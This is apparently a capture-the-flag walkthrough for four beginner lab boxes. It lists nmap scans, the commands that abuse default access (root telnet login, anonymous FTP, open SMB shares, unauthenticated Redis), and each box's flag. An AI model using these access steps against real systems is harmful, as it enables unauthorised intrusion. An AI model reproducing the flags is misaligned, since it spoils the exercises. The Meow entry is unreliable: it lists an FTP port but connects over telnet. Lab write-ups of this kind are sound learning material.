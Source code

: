 # TIER 0 STARTING POINT BOXES

--------------------------------------------------------------------

**TOOLS USED**: nmap

--------------------------------------------------------------------

## MEOW BOX

**IP Address**: 10.129.70.43

```
nmap -sC -sV -oN nmap.txt 10.129.70.43
```

**EXPOSED PORT (SERVICE)**: 21 (ftp)

```
telnet 10.129.70.43
```

user: root

FLAG: b40abdfe23665f766f9c61ecba8a4c19

--------------------------------------------------------------------

## FAWN BOX

**IP Address**: 10.129.98.220

```
nmap -sC -sV -oN nmap.txt 10.129.98.220
```
**EXPOSED PORT (SERVICE)**: 21 (ftp)

Anonymous ftp login was enabled

```
ftp 10.129.98.220
```

user: anonymous<br>
password: anonymous<br>

```
get flag.txt
```

FLAG: 035db21c881520061c53e0536e44f815

--------------------------------------------------------------------

## DANCING BOX

**IP Address**: 10.129.142.29

```
nmap -sC -sV -oN dancing_nmap.txt 10.129.142.29
```

**EXPOSED PORT (SERVICE)**:<br>
135 (msrpc),<br>
139 (netbios-ssn),<br>
445 (microsoft-ds)

To list the smb shares:

```
smbclient -L 10.129.142.29
```
Shares: ADMIN$, C$, IPC$, WorkShares

WorkShares doesn't require a password. Other ones are default shares ($)

```
smbclient //10.129.142.29/WorkShares
get flag.txt
```

FLAG: 5f61c10dffbc77a704d76016a22f1664

--------------------------------------------------------------------

## REDEEMER BOX

**IP Address**: 10.129.34.251

```
nmap -sC -p- -T5 -oN redeemer_nmap.txt 10.129.34.251
```

-p-: all ports
-T5: speed up scan because -p- is slow

**EXPOSED PORT (SERVICE)**: 6379 (redis)

Redis: in-memory database

```
redis-cli -h 10.129.34.251
INFO SERVER
INFO KEYSPACE
SELECT 0
KEYS *
GET FLAG
```

FLAG: 03e1d2b376c37ab3f5319922053953eb"
